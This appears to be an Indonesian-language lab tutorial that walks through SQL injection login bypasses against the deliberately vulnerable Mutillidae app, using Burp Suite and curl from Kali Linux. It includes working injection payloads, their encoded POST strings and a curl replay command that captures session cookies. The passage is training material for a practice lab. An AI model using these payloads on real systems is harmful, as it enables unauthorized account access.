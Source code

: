 Lesson 6
--------
### Section 6: Open Console Terminal and Retrieve IP Address
- **Step 1**    : Buka Terminal Kali Linux
- **Step 2**    : Dapatkan IP address dari Kali Linux
    ```
    ifconfig
    ```
    - IP address yang didapatkan `10.151.64.195`
    - VM Kali Linux ini akan digunakan sebagai penyerang Metasploitable
    ![](/assets/lesson-6/ifconfig.png)

### Section 7: Start Web Browser Session to Mutillidae
- **Step 1**    : Buka Mozilla Firefox
- **Step 2**    : Buka Multilidae
    ![](/assets/lesson-6/open_multilidae.png)

### Section 8: Go To Login Page
- **Step 1**    : Klik Login/Register
    ![](/assets/lesson-6/click-login.png)

### Section 9: Configure Firefox Proxy Settings
- **Step 1**    : Buka Preference > Advanced > Network > Settings...
- **Step 2**    : Konfirgurasi Proxy
    - Klik **Manual Proxy Configuration**
    - Ketik `127.0.0.1` di kolom **HTTP Proxy**
    - Ketik `8080` di kolom **Port**
    - Check **Use this proxy server for all protocols**
    - Klik Ok
    - Klik Close
    ![](/assets/lesson-6/config-proxy.png)
    
### Section 10: Configure Burpsuite Settings
- **Step 1**    : Buka Burpsuite melalui Applications > Web Application Analysis > Burpsuite
    ![](/assets/lesson-6/VirtualBox_kali_19_12_2017_12_27_52.png)
- **Step 2**    : Pilih **Temporary project**, lalu **next**
    ![](/assets/lesson-6/temp_project.png)
- **Step 3**    : Pilih **Use Burp defaults**, lalu **Start Burp**
    ![](/assets/lesson-6/burp_config.png)
- **Step 4**    : Buka Proxy > Options, dan pastikan **Port** berupa 8080
    ![](/assets/lesson-6/burp_proxy.png)
- **Step 5**    : Buka Proxy > Intercept, ubah **Intercept is on** menjadi **Intercept is off**
    ![](/assets/lesson-6/proxy-intercept.png)
    
### Section 11: SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
    ```
    - Query yang sebenarnya dikerjakan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1
    ```
- **Step 5**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    _ Klik Raw Tab
    - Lihat **POST** Data String        
        ```
        username=%27+or+1%3D1--+&password=&login-php-submit-button=Login
        ```
        - `%27` adalah petik satu (')
        - `+` adalah spasi
        - `%3D` adalah sama dengan (=)
        ![](/assets/lesson-6/obtain_1.png)
        
### Section 12: Simulate CURL SQL Injection: (Obtain Access #1)
- **Step 1**    : Klik Logout
- **Step 2**    : Gunakan Curl untuk mekakukan login dengan **POST** data yang didapatkan dengan Burpsuite pada Section 11
    ```
    curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://10.151.36.64/mutillidae/index.php?page=login.php" > login1.txt
    ```
    - menampilkan hasil "Logged In Admin"
        ```
        grep "Logged In" login1.txt
        ```
    - menampilkan **session cookies** beserta **PHP session ID** (PHPSESSID)
        ```
        cat crack_cookies.txt
        ```
    ![](/assets/lesson-6/obtain_1_curl.png)
    
### Section 13: SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada elemen **type**. Ganti elemen maxlength menjadi `50` dan elemen size menjadi `50`
    ![](/assets/lesson-5/inspect-password-size.png)
- **Step 6**    : Ketik `' or (1=1 and username='samurai')-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/non-obfused-pass-2.png)
    - Anda akan berhasil login sebagai `samurai`
    ![](/assets/lesson-5/samurai-logged-in.png)
    - Query yang dihasilkan
    ```
    SELECT * FROM accounts WHERE username='samurai' AND password='' or (1=1 and username='samurai')-- '
    ```
- **Step 8**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    - Klik Raw Tab
    - Block semuta teks lalu klik kanan
    - Klik "Copy to File"
        ![](/assets/lesson-6/obtain_2.png)
    - Simpan sebagai `burp2.txt`
- **Step 9**    : Lihat Post Data
    - `grep -i cookie burp2.txt`
    - `grep -i username burp2.txt`
    ![](/assets/lesson-6/burp2-txt.png)
- **Step 10**    : Logout dan tutup Mozilla Firefox

### Section 14: Simulate cURL SQL Injection: (Obtain Access #2)

    



    